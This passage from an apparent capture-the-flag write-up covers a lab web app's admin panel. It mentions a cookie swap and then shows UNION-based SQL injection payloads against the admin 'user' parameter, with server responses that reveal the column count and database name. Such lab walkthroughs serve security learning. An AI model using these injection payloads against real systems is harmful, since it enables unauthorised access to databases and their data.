 Now I browse to /admin and replace my cookie with the new one, and I am given the first flag.

![marketplace1.PNG](./img/marketplace1.PNG "marketplace1.PNG")

---
## Flag 2

Clicking on the available users reveals a user parameter in the URL:

```
http://10.10.33.229/admin?user=1
```

Trying SQL injection gives us errors, so we can start to glean some information about the database

```
http://10.10.33.229/admin?user=0 union select 1,1,1 -- -

Error: ER_WRONG_NUMBER_OF_COLUMNS_IN_SELECT: The used SELECT statements have a different number of columns
```

Here we see that there are 4 columns in the queried table:

```
http://10.10.33.229/admin?user=0 union select 1,1,1,1 -- -

User 1
User 1
ID: 1
Is administrator: true 
```

The database name is 'marketplace':

```
http://10.10.33.229/admin?user=0 union select 1,database(),2,1 -- -

User 1
User marketplace
ID: 1
Is administrator: true 
```
